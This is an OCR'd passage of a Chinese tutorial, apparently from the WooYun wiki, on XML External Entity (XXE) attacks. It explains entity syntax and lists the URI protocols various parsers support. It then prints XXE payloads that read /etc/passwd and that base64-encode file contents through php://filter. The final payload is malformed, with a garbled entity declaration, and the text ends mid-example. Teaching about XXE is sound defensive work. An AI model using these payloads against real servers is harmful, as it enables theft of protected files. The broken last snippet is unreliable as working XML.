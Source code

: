 	<?xml version="1.0" encoding="utf-8"?>
	 
	<!DOCTYPE entity [
	  <!ENTITY wiki SYSTEM "http://wiki.wooyun.org/">
	]>
	 
	<wooyun>
	  <external>&wiki;</external>
	</wooyun>
在解析XML时，实体将会被替换成相应的引用内容。

XML外部实体（XML External Entity，XXE）攻击是一种常见的Web安全漏洞，攻击者可以通过XML的外部实体获取服务器中本应被保护的数据。

**2、成因**

---
XML解析器解析外部实体时支持多种协议


|libxml2|PHP           |Java   |.NET |
| -----|:----:| ----:|----|
|file   |file          |file   |file |
|http   |http          |http   |http |
|ftp    |ftp	          |ftp    |ftp  |
|       |php           |https  |https|
|       |compress.zlib |jar    |     |
|       |data          |netdoc	|     |
|       |glob          |mailto	|     |
|       |phar          |gopher	|     |     |

如使用file协议可以读取本地文件内容、使用http协议可以获取Web资源等，因此攻击者可构造恶意的外部实体，当解析器解析了包含“恶意”外部实体的XML类型文件时，便会导致被XXE攻击。

下面这个XML被解析时便会将本地/etc/passwd文件的内容读出来：

	<?xml version="1.0" encoding="utf-8"?>
	 
	<!DOCTYPE entity [
	  <!ENTITY file SYSTEM "file:///etc/passwd">
	]>
	 
	<wooyun>
	  <external>&file;</external>
	</wooyun>
注：如果读取的文件本身包含“<”、“&”等字符时会产生失败的情况，对于此类文件可以使用Base64编码绕过，具体方法如下：

	<?xml version="1.0" encoding="utf-8"?>
	 
	<!DOCTYPE entity [
	  <!ENTITY file SYSTEM ENTITY e SYSTEM "php://filter/read=convert.base64-encode/resource=http://wiki.wooyun.org">
	]>
	 